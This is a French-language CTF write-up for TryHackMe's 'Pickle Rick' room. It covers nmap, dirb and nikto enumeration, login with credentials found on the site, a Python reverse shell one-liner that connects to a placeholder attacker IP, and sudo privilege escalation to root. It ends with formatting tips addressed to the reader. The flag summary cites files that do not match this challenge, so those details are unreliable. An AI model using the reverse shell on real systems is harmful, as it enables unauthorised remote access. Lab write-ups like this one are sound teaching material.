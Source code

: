 # **CTF Write-Up: Pickle Rick**

## **Description**
Write-up détaillé pour résoudre le challenge *Pickle Rick* de TryHackMe. Toutes les étapes, outils, et captures d’écran sont inclus.

---

## **Étapes de Résolution**

### **1. Analyse initiale du serveur**
- **Ping :** Vérification que le serveur est actif.
- **Nmap scan :**
  ```bash
  nmap -sV -p- <IP-CIBLE>
  ```
  - **Résultats :**
    - Port 80 : HTTP (Apache/2.4.41)
    - Port 22 : SSH

![Scan Nmap](image/scannmap.png)

---

### **2. Exploration de la page web**
- **Inspection du code source :** Découverte du nom d’utilisateur.
  - **Nom d’utilisateur :** `R1ckRul3s`

![Code source username](image/codesource.png)

---

### **3. Recherche des répertoires cachés**
- **Dirb scan :**
  ```bash
  dirb http://<IP-CIBLE>/ <WORDLIST>
  ```
  - **Résultats :** Découverte de `/robots.txt` contenant `Wubbalubbadubdub`.

![Dirb results](image/dirbenumeration.png)

---

### **4. Utilisation de Nikto**
- **Commande :**
  ```bash
  nikto -h http://<IP-CIBLE>/
  ```
  - **Résultats :** Découverte de `/login.php`.

![Nikto results](image/nikto.png)

---

### **5. Connexion au panneau de contrôle**
- **Identifiants utilisés :**
  - **Nom d’utilisateur :** `R1ckRul3s`
  - **Mot de passe :** `Wubbalubbadubdub`
- **Résultat :** Accès au panneau de contrôle.

![Login panel](image/commandpanel.png)

---

### **6. Exploitation avec Reverse Shell**
- **Vérification de Python 3 sur la cible :**
  ```bash
  which python3
  ```
- **Reverse shell envoyé depuis le site :**
  ```bash
  python3 -c 'import socket,os; s=socket.socket(); s.connect(("IP-ATTAQUANT",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.system("/bin/bash")'
  ```
- **Netcat en écoute sur l’attaquant :**
  ```bash
  nc -lvnp <PORT>
  ```
- **Résultat :** Shell interactif avec les permissions `www-data`.

![Reverse Shell](image/lsreverseshell.png)

---

### **7. Escalade de privilèges**
- **Analyse des permissions sudo :**
  ```bash
  sudo -L
  ```
  - **Résultats :** Permissions root disponibles.
- **Commande pour devenir root :**
  ```bash
  sudo bash -i
  ```
- **Résultat :** Accès root obtenu.

![Root access](image/devenirroot+flag3.png)

---

### **8. Exploration finale**
- **Recherche dans le répertoire root :**
  - Découverte du troisième et dernier flag.

![Troisième flag](image/devenirroot+flag3.png)

---

## **Résumé des Flags**
1. **Flag 1 :** Contenu trouvé dans le fichier `fsocity.dic`.
2. **Flag 2 :** Contenu du fichier `clue.txt`.
3. **Flag 3 :** Contenu trouvé dans le répertoire `/root`.

---

## **Outils et Commandes Utilisés**
- **Nmap** : Pour énumérer les ports et services.
- **Netcat** : Vérification de la connectivité.
- **Gobuster/Dirb** : Énumération de répertoires.
- **Nikto** : Scan de vulnérabilités sur le serveur web.
- **Reverse Shell** : Exploitation pour obtenir un shell interactif.
- **Sudo** : Escalade de privilèges pour devenir root.

---

## **Licence**
Ce write-up est partagé à titre éducatif uniquement. Veuillez respecter les lois et ne pas utiliser ces techniques sans autorisation.
```

---

### Points à vérifier :
1. **Vérifiez les noms exacts des images** : 
   - Assurez-vous que les noms des fichiers correspondent exactement, y compris la casse (majuscules/minuscules) et l’extension (.png).
2. **Images dans `image/`** : 
   - Toutes vos images doivent être dans le dossier `image/`.
3. **Rendu final** :
   - Une fois ce texte ajouté, cliquez sur l'onglet **Preview** pour vérifier que tout fonctionne correctement.

Si vous rencontrez encore des problèmes, envoyez-moi les erreurs ou comportements rencontrés !
